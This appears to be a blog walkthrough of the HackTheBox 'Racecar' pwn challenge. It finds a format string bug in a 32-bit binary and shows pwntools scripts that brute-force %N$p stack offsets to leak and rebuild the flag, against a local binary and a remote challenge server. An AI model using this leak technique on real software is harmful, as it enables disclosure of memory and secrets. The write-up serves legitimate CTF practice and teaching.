


## Overview

This is a Walkthrough for Racecar challenge on HackTheBox. Racecar is a very easy [HackTheBox challenge](https://app.hackthebox.com/challenges/racecar) in pwn category that is created by [w3th4nds](https://app.hackthebox.com/users/70668). It is also a retired challenge, so we will need to use the HackTheBox Subscription to use the challenge.

## Enumeration

When unzipping the files. We were given 1 file.


> The zip file is the original file when we download the challenge.

Let's check what is the type of the racecar file using command `file`.


Turns out, the file is 32 bit ELF (Executable Linux File). To run the ELF file, we need to make it executeable by using the following command `chmod +x <filename>`. Which in this case will be `chmod +x racecar`.

Then we can try to check the permission of the file.


Since the program is now executable (shown by the letter `x` while checking the file permission), we can try to run the program.


On the first two input that the program asked. We were asked about our name and nickname.


Then if we send 1, we will get the cars stats and if we send 2, we will get another prompt that asked which car that we will choose.


Now, if we choose `car 1`, then choose the `Highway battle` for the race, we will lose.

But, if we choose `car 1`, then choose `Circuit` for the race, we will win.


It is the same if we choose `car 2`, then choose `Highway battle`, then we will win.


As we can see, if we win the program doesn't give us the flag. It said that `Could not open flag.txt. Please contact the creator.` To check more further, we can try to create a dummy flag. So the program will recognize that there is a file flag.txt and continue the program.

To create it, we can simply use `nano`, `vim`, or even `echo` to create a dummy flag.

> Make sure to create the flag within the `racecar` file.



Let's try to run the program again with the same sequence.


Sure enough, we can give some input that will be printed again on the last part of the program and the program will end.

Just from the flow of the program itself. On the last part of the program, it will ask some `quote` then the quote will be printed again before the program closed out. It seems that the program is vulnerable to [**Format String Vulnerability**](https://owasp.org/www-community/attacks/Format_string_attack).

To verify it, we can try to put the program into `disassembler` like `ghidra` or `ida`. Since `ghidra` is a free and open source tool. This time we will utilize `ghidra` to disassemble the racecar program.


In the `car_menu function` on line 82. The program will just print the data stored in `__format` variable without any formats.


In the same function on line 78, `__format` variable were used to save the `quote` that will be inputted by user.


And since the flag is saved on the stack (on line 77), we will be able to leak the data saved in the stack by using `Format String Vulnerability` on the `quote` part.


## Exploit

To abuse the `Format String Vulnerability` we will try to input `%p` to the program and the program should be giving back address that is saved in the stacks.


If we remember correctly, our dummy flag is `flag{FAKEFLAG}`. Therefore, we can try to spam `%p` until the flag is leaked.


Now we can try to convert it to ASCII. The output has `0x` in front of the address which indicates that it is in a hexadecimal format.

Let's try to convert it using my favorite website, [CyberChef](https://gchq.github.io/CyberChef/).


We found it! The flag is leakable. But it seems that the output is reversed, since the program is also in 32-bit which saved the data in [little endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/).

Now we can try to convert it one by one to reveal the flag.

**galf** &rarr; **flag**


**KAF{** &rarr; **{FAK**


**ALFE** &rarr; **EFLA**


Now the last part should be readable too. But if we just try to convert it. The result wouldn't be readable.


Why is it happening? It is because the characters behind `0x` is in odd numbers. So we can try to erase the first character after `0x` which is the `a` character.

**}G** &rarr; **G}**


It works! If we combine it all together. It will be **`flag{FAKEFLAG}`**.

Now, if you are happy with this manual brute force method. You can try it on remote server. And convert it using the same method.

But! If you are interested to automate it, you can follow the following steps.

## Building a Python Script

To leak the flag using python script abusing `Format String Vulnerability`, this is the base script that I usually use.

```python
from pwn import *

isLocal = True

# converted from ASCII to hexadecimal
close_bracket_format = "7d"

is_found = False
count = 1

while not is_found:
	if isLocal:
		s = process("./racecar")
	else:
		host = ""
		port = 0

		s = remote(host, port)

	# insert name
	print(s.recvuntil(b": ").decode())
	s.sendline(b"abc")

	# insert nickname
	print(s.recvuntil(b": ").decode())
	s.sendline(b"abc")

	# first selection to choose the car
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"2")

	# second selection to choose which car to use
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"2")

	# third selection to choose "highway battle"
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"1")

	# abuse the format string vulnerability by sending "%p"
	print(s.recvuntil(b"> ").decode())
	log.info(f"Sending `%{count}$p`".encode())
	s.sendline(f"%{count}$p".encode())

	# receive the line before the quote
	print(s.recvline().decode())

	# receive the quote line
	print(s.recvline().decode())

	# receive the output after the quote line
	result = s.recvline().decode()
	print(f"result = {result}")

	if close_bracket_format in result:
		is_found = True
	else:
		count += 1

	s.close()

log.info(f"Found in {count}")
log.info(f"String: {result}")
```

The python script above, is used to brute-force to get where is the position of the last part of the flag. Since the flag will always ends with a closed curly brace `"}"`. We can use it as the if condition.

> Note: I usually print the data from the program (i.e. banner) to see if the script running well just like I thought. But if you think it's annoying, you can delete the `print` and `decode` parts. And it should looks like this `s.recvline()`.

The other thing that is worth mentioning is the `%{count}$p`. Since I will be brute forcing the index one by one, I will modify the old `%p` to `%<number>$p`. The purpose of putting `number` and `dollar sign` in between `%` and `p` is to manipulate the input, so it doesn't exceed the limit if there is any.

> `%3$p` is equal to the third of the `%p` and so on.

Let's try to run it locally.


It works! The result is the same as the last of manual method.

As usual, you can simply just change the `isLocal` flag to false, set the `host` and `port` and manually convert hexadecimal to ASCII. But, the scripting journey is not end here.

We will attempt to create a python script that will automate the whole thing. So we will just need to copy the flag and submit it!

Based on the base python script, I will modify some things such as adding function to convert from ASCII to hexadecimal and put the rest on main function.

Then if the address leaked is containing data within the flag formats, the address will be appended to the flags variable.

```python
from pwn import *
import codecs

def ascii_to_hex(strings):
	# to convert from ASCII to hex
	return codecs.encode(strings.encode(), "hex").decode()

def main():
	isLocal = True

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = ""
			port = 0

			s = remote(host, port)

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# insert nickname
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# first selection to choose the car
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# second selection to choose which car to use
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# third selection to choose "highway battle"
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"1")

		# abuse the format string vulnerability by sending "%p"
		print(s.recvuntil(b"> ").decode())
		log.info(f"Sending `%{count}$p`".encode())
		s.sendline(f"%{count}$p".encode())

		# receive the line before the quote
		print(s.recvline().decode())

		# receive the quote line
		print(s.recvline().decode())

		result = s.recvline().decode()
		print(f"result = {result}")

		# check if the hex parts is inside the flag format
		# Local: flag{.*}
		# Remote: HTB{.*}
		if prefix_flag_format in result:
			is_within_flag_format = True
		elif suffix_flag_format in result:
			suffix_is_found = True

		# if the address is within the flag format,
		# it will be appended to the flags variable
		if is_within_flag_format:
			flags.append(result.lstrip("0x").rstrip("\n"))

		count += 1

		s.close()

	# convert from hexadecimal to ASCII
	for flag in flags:
		final_result += p32(int(flag, base=16)).decode()

	print(final_result)

if __name__ == "__main__":
	main()
```

Now if we run it locally, we will get the dummy flag.


Great! Let's fire up the HTB server that runs the challenge. Set the `isLocal` flag to `False` and adjust the host and port according to the HTB website.

```python
def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")
```

All that we need to do is to run it.



Ok.. It doesn't works. If we look at it closely, it seems that the connection is closed and we barely do any brute-forcing. It's only the third attempt (you can see that it's currently sending %**3**$p).

It might be that the HTB server is preventing is from brute-forcing too fast. So we can simply import one more library, which is time. To set the program to delay the brute-force by 1 second.

```python
from pwn import *
import codecs
import time

def ascii_to_hex(strings):
	# to convert from ASCII to hex
	return codecs.encode(strings.encode(), "hex").decode()

def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		time.sleep(1)
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)
```

Let's give it one more try.


We successfully get the flag!

Here is the final Python script to exploit.

```python
from pwn import *
import codecs
import time

def ascii_to_hex(strings):
	# to convert from ASCII to hex
	return codecs.encode(strings.encode(), "hex").decode()

def main():
	isLocal = False

	suffix_flag_format = ascii_to_hex("}")

	suffix_is_found = False
	count = 1

	final_result = ""
	flags = []
	is_within_flag_format = False

	while not suffix_is_found:
		time.sleep(1)
		if isLocal:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("flag"[::-1])

			s = process("./racecar")
		else:
			# reverse the string, so it will be in little endian format
			prefix_flag_format = ascii_to_hex("HTB"[::-1])

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# insert nickname
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# first selection to choose the car
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# second selection to choose which car to use
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# third selection to choose "highway battle"
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"1")

		# abuse the format string vulnerability by sending "%p"
		print(s.recvuntil(b"> ").decode())
		log.info(f"Sending `%{count}$p`".encode())
		s.sendline(f"%{count}$p".encode())

		# receive the line before the quote
		print(s.recvline().decode())

		# receive the quote line
		print(s.recvline().decode())

		result = s.recvline().decode()
		print(f"result = {result}")

		# check if the hex parts is inside the flag format
		# Local: flag{.*}
		# Remote: HTB{.*}
		if prefix_flag_format in result:
			is_within_flag_format = True
		elif suffix_flag_format in result:
			suffix_is_found = True

		# if the address is within the flag format,
		# it will be appended to the flags variable
		if is_within_flag_format:
			flags.append(result.lstrip("0x").rstrip("\n"))

		count += 1

		s.close()

	# convert from hexadecimal to ASCII
	for flag in flags:
		final_result += p32(int(flag, base=16)).decode()

	print(final_result)

if __name__ == "__main__":
	main()
```